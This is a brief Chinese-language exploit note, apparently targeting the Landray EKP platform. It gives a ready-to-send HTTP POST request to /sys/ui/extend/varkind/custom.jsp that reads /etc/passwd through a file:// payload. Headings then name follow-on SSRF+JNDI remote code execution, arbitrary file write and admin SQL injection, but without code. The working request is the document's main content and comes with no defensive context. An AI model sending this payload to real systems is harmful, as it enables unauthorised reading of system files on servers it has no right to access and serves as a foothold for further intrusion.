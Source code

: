 # 0x01-任意文件读取
访问/sys/ui/extend/varkind/custom.jsp
```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: host:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 27
Connection: close
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"file:///etc/passwd"}}
```

# 0x02-SSRF+JNDI远程代码执行
基于上面的任意文件读取

# 0x03-任意文件写入漏洞
基于上面的任意文件读取

# 0x04-EKP后台SQL注入
后台地址/admin.do

# 参考链接
https://blog.csdn.net/xd_2021/article/details/121893236